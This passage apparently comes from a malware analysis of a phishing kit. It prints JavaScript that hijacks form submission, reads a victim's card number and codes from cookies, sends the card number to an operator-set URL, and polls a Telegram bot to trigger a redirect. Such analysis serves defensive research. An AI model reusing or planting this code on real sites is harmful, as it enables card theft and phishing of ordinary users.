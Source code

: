 Though, two separate functions which retrieve Telegram data and redirect the victim to a third site depending on their credit card number are never called. Should they have been executed, the following code block would run:

```js
function submitFormWaitingRedirect(pathname, url_to_fetch_from, threshold_milliseconds, element_id, element_ids, new_destination) {
    document.addEventListener("submit", function (event) {
      ...
      if (event.target.id === pathname) {
        event.preventDefault();
        fetch(window.location.pathname, {
          'method': "POST",
          'body': new FormData(event.target)
        }).then(() => {
          let current_time_milliseconds = Date.now();
          //Function call every second
          let interval = setInterval(send_data, 1000);
          //...
          let cardNumber = getCookie("cardNumber");
          let randomCode1 = getCookie("randomCode1");
          let randomCode2 = getCookie("randomCode2");
          let botFatherKey = getCookie("botFather");
          fetch(url_to_fetch_from + "?queryJson=" + cardNumber).then(returnedJsonData => returnedJsonData.json()).then(formatted_json => {
            if (formatted_json === '1') {
                fetch(window.location.pathname + "?changeCodeSwitch=" + cardNumber + '&changeValue=0');
              new_location();
              } //...
            }),
            fetch("https://api.telegram.org/bot" + botFatherKey + "/getUpdates").then(returnedBotJson => returnedBotJson.json()).then(formatted_bot_json => {
              formatted_bot_json.result.forEach(piece_of_data => {
                let text = piece_of_data.message.text;
                if (text === randomCode1) {
                  new_location();
                } //...
              });
            });
          }
          function new_location() {
            clearInterval(interval);
            document.getElementById(element_id).style.display = "none";
            window.location.href = new_destination;
          }
          //...
        });
      }
    });
  }
```
